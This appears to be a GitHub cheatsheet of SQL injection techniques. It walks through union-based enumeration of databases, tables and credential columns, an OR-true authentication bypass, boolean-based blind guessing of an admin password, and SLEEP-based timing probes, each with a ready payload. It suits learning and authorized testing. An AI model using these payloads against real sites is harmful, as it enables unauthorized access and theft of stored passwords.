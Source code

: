 # Sql-injection
cheatsheet for some sql-injection tricks and commands i used before 

## To perfom successful sql injection attack :-

### First In-Band SQL Injection type :

- You need to figure out **how many columns** do you have by using :

>1 UNION SELECT 1,2,...

- When you figure out how many columns , you need to **break the query** to make union select print whatever data it will returned 

>0 UNION SELECT 1,2,3

- Now we need to know the **name of the database** 

>0 UNION SELECT 1,2,database()

- Now we need to **get the tables** in that database

>0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'teto_database'

- Now we know name of tables lets try to **get data from it** 

>0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'company_users'

- Lets get the passwords 

>0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM company_users

## Second Blind SQLi :
Unlike In-Band SQL injection, where we can see the results of our attack directly on the screen, blind SQLi is when we get little to no feedback to confirm whether our injected queries were, in fact, successful or not, this is because the error messages have been disabled, but the injection still works regardless. It might surprise you that all we need is that little bit of feedback to successful enumerate a whole database.

### Authentication Bypass :
you can do Authentication Bypass by trying to use OR statement and make true statement like 0=0 or 1=1 or 'a'='a' 
like if that was the sql command 

>select * from users where username='%username%' and password='%password%' LIMIT 1;

you can bypass it with something like : 
> ' OR 9=9;--

### Boolean Based :
Boolean based SQL Injection refers to the response we receive back from our injection attempts which could be a true/false, yes/no, on/off, 1/0 or any response which can only ever have two outcomes.

Example : we have api that return to us if we can make username with that name or not 
>http://site.com/signup?check=kareem

if there is already someone called kareem , the api should return false value to us 
so we can do something like this 

>kareemx0' UNION SELECT 1;-- 

and see if the returned value was false thats mean we should put more numbers after the select to select the same amount of columns we need to select

>kareemx0' UNION SELECT 1,2,3;-- 

now we need to know the name of the database so we will use **like** command to try to guess the name of the DB 

>kareemx0' UNION SELECT 1,2,3 where database() like 'a%';--

if it starts with letter A it will return true if not it will return false , so we should keep guessing manually until we figure out or you can automate it by any script
lets say we figured out the name of the databas which is *mods* 
so lets use this command 

>kareemx0' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'mods' and table_name like 'a%';--

by using this we will start to guessing the name of table as we did before when we wanted to guess the name of the database , lets say the table called users
so lets use this 

>kareemx0' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='mods' and TABLE_NAME='users' and COLUMN_NAME like 'a%';

now we will start to guessing the name of columns but lets try to guessing names of any columns except the **id** column

>kareemx0' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='mods' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';

and we figure out that the column name is usernames , so now lets try to guess what is the password for the admin 

>kareemx0' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%

we will try to cycling through all the characters until we discover the password


### Time-Based :
A time-based blind SQL Injection is very similar to the above Boolean based, in that the same requests are sent,
but there is no visual indicator of your queries being wrong or right this time. Instead, your indicator of a correct query is based on the time the query takes to complete. 
This time delay is introduced by using built-in methods such as SLEEP(x) alongside the UNION statement.
The SLEEP() method will only ever get executed upon a successful UNION SELECT statement. 

lets try to take our last example to explain the time based sql injection 

>kareemx0' UNION SELECT SLEEP(5),2;--

the response will come after 5 seconds 
so we can repeat our last steps from the last example "Boolean based" and the indicator will be the time like if the result is True it will sleep 5 seconds and if it was false it won't sleep the 5 seconds




